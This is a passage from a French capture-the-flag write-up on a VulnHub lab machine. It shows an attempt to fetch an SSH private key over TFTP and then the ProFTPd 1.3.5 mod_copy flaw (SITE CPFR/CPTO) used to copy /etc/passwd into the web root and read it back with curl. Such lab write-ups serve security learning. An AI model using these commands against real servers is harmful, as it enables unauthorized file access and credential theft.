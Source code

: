 Je n'ai eu de chances avec aucun client TFTP pour communiquer efficacement avec le serveur. Il a donc fallu que je couple le client avec un Wireshark pour capturer les réponses.
`atftp` semble donner des réponses un peu plus exploitables.

Vu que je sais que la racine du _TFTP_ est `/home/patrick` je tente de lire la clé privée SSH :
```bash
atftp --get --remote-file .ssh/id_rsa --local-file id_rsa 192.168.56.121 36969
```

Depuis Wireshark je vois requête et réponse :

```
185	939.425495517	192.168.56.1	192.168.56.121	TFTP	62	Read Request, File: .ssh/id_rsa, Transfer type: octet	44165	36969
186	939.437735885	192.168.56.121	192.168.56.1	TFTP	64	Error Code, Code: Not defined, Message: Permission denied	33124	44165
```

J'ai plus de chances avec `version_control`. Pour obtenir le contenu je suis contraint d'extraire les données avec le `Copy` de Wireshark :

> Version Control of External-Facing Services:
> 
> Apache: 2.4.25  
> Dropbear SSH: 0.34  
> ProFTPd: 1.3.5  
> Samba: 4.5.12  
> 
> We should switch to OpenSSH and upgrade ProFTPd.
> 
> Note that we have some other configurations in this machine.
> 1. The webroot is no longer /var/www/html. We have changed it to /var/www/tryingharderisjoy.
> 2. I am trying to perform some simple bash scripting tutorials. Let me see how it turns out.

Cette version de ProFTPd est connue pour être vulnérable à une faille permettant la copie des fichiers sur le système : [ProFTPd 1.3.5 - File Copy](https://www.exploit-db.com/exploits/36742)

J'ai déjà croisé cette version sur le CTF [Symfonos #2]({% link _posts/2023-02-20-Solution-du-CTF-Symfonos-2-de-VulnHub.md %}).

Je vais copier le fichier `/etc/passwd` sur la racine web indiquée dans `version_control` :

```console
$ ncat 192.168.56.121 21 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.121:21.
220 The Good Tech Inc. FTP Server
site help
214-The following SITE commands are recognized (* =>'s unimplemented)
 CPFR <sp> pathname
 CPTO <sp> pathname
 HELP
 CHGRP
 CHMOD
214 Direct comments to root@JOY
site cpfr /etc/passwd
350 File or directory exists, ready for destination name
site cpto /var/www/tryingharderisjoy/passwd
250 Copy successful
quit
221 Goodbye.
^C
$ curl http://192.168.56.121/passwd
root:x:0:0:root:/root:/bin/bash
--- snip ---
patrick:x:1000:1000:patrick,,,:/home/patrick:/bin/bash
ossec:x:117:123::/var/ossec/:/bin/false
ossecm:x:118:123::/var/ossec/:/bin/false
ossecr:x:119:123::/var/ossec/:/bin/false
```